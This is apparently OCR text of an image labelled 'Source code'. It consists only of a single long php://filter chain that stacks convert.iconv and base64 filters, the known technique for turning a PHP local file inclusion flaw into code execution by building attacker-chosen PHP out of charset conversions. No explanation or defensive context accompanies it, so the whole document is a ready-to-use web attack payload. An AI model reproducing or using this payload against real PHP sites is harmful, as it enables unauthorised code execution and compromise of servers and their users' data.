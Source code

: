 ```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode
```